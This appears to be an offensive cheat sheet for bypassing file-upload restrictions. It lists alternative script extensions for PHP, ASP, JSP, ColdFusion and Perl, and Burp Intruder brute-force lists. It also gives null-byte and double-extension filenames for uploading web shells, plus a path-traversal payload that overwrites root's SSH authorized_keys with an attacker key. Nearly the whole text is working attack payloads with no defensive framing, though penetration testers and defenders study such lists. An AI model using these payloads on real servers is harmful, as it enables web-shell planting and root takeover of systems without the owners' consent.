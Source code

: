 # Blacklisting bypass
## PHP
```
pht, phpt, phtml, php3, php4, php5, php6
```

## asp
```
asp, aspx
```

## perl
```
pl, pm, cgi, lib
```

## jsp
```
jsp, jspx, jsw, jsv, jspf
```

## coldfusion
```
cfm, cfml, cfc, dbm
```

# Whitelisting bypass
null byte injection
```
shel.php$00.gif
```

double extension
```
shell.jpg.php
```

# Bruteforcing extensions

using Burp with intruder

php
```
php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc
```

asp
```
.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
```

jsp
```
.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
```

coldfusion
```
.cfm, .cfml, .cfc, .dbm
```

perl
```
.pl, .cgi
```

# Non-Executable Files

## overwrite authorized_keys
key-gen
```
ssh-keygen -f fileup
```

```
cat fileup.pub > authorized_keys
```

overwrite path
```
../../../../../../../root/.ssh/authorized_keys
```